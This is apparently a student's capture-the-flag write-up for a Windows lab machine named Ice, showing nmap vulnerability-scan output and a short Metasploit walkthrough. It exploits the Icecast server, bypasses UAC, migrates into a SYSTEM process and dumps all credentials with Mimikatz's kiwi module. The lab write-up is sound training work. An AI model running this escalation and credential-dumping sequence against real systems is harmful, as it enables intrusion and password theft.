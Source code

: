 # Ice Room

> Osama Albawab | 28/4/2020

-----------------------------------

# ------ 10.10.187.3 --------

# nmap scan
> `root@OZMA:~/Downloads# nmap -sS -sV -sC -A -p- --script vuln 10.10.187.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-28 02:42 +03
Nmap scan report for 10.10.187.3
Host is up (0.068s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  ssl/ms-wbt-server?
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020:
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown:
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
8000/tcp  open  http               Icecast streaming media server
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
49152/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49160/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49161/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/28%OT=135%CT=1%CU=37697%PV=Y%DS=2%DC=T%G=Y%TM=5EA770
OS:58%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M508NW8ST11%O2=M508NW8ST11%O3=M508NW8NNT11%O4=M508NW8ST11%O5=M
OS:508NW8ST11%O6=M508ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M508NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0
OS:%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   64.93 ms 10.9.0.1
2   75.57 ms 10.10.187.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 601.89 seconds

  `

# VULNERABLE to CVE-2004-1561
> exploited by metasploit
> search icecast
> sysinfo to see the system info
> Metasploit Local Exploit Suggester, or Lester for short. Lester is a post module that you can use to check a system for local vulnerabilities, [[ run post/multi/recon/local_exploit_suggester ]]
> `run post/multi/recon/local_exploit_suggester

[*] 10.10.187.3 - Collecting local exploits for x86/windows...
[*] 10.10.187.3 - 30 exploit checks are being tried...
[+] 10.10.187.3 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
`
> we ran exploit/windows/local/bypassuac_eventvwr
> [[ getprivs ]] to check for privileges
> now we gained more privileges to migrate to processes and stuff
> using ps we saw NT AUTHORITY processes so that we can migrate to them
> 1268  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM
> C:\Windows\System32\spoolsv.exe
> migrate -N spoolsv.exe
> meterpreter > getuid
> Server username: NT AUTHORITY\SYSTEM
> after becoming NT AUTHORITY\SYSTEM we can now see every user's password
> so we used a program to dump all the passwords and the program is Mimikatz
> [[ load kiwi ]] => [[ creds_all ]] to see all the creditionals



===================================================================
# Was fun learned alot !!!!
===================================================================
